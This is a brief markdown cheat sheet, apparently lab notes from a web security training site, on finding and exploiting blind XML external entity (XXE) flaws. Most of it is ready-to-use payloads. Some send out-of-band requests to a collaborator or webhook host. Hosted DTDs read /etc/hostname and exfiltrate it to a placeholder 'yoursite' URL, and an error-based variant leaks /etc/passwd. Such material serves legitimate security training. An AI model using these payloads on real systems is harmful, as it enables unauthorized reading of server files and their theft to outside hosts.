 ## You can detect XXE vulnerability blind through making requests to another domain - this can be done with either webhooks.site or burp collaborator.


### If you find a request sending xml:  
Open collaborator/webhooks and obtain your unique url  
Insert on of the following external entity definition after the xml declaration:  
`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://UNIQUE_URL_HERE"> ]>`  
`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>`  
Sometime you may need to replace a value with reference to the external entity: `&xxe;` or, at the end of your definition: `> %xxe; ]>`  
Go to your webhooks/collaborator window. You should see some DNS and HTTP interactions.  

### The next step is to weaponise the blind interaction.  
If you can host a file on the site or set one up yourself on webhooks.site, put the below in:  
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://yoursite/?x=%file;'>">
%eval;
%exfil;
```

Then call in the vuln request with:  
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ac981f881e87f5de8110868c012f0023.web-security-academy.net/exploit"> ]>`

### LFI from blind xxe:

as before host an xml doc somewhere:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Trigger with:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://yoursite/file.xml"> %xxe;]>`

